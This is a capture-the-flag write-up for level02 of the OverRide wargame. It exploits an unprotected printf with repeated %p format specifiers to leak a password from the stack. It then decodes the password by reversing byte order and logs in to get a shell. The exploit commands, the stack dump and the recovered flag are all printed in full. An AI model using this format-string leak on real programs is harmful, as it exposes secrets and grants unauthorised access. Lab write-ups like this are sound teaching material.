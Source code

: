 After analyzing the source code, we can see that it executes /bin/sh only if the password matches the flag.

We also noticed an unprotected printf function used to display the username, which we can exploit to get File content

First, let's test this:

``` Shell
level02@OverRide:~$ ./level02 %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAA%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: *****************************************
AAAA0x7fffffffe0e0 (nil) 0x20 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe2d8 0x61f7ff9a08 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x100702520 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x2520702541414141 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 does not have access!
level02@OverRide:~$ ./level02 %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

We can see five pointers before ours pointer:

0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d between 


Converting these to ASCII gives us: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M.

``` Shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
--[ Password: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
*****************************************
unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M does not have access!
```

Next, we reverse the pointer order before converting to ASCII:

0x48336750664b394d 0x354a35686e475873 0x377a7143574e6758 0x45414a3561733951 0x756e505234376848

H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH

This gives us: `H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH`.

Reversing this string, we get: `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`.

Let's test this:

``` Shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H!
$ 
```
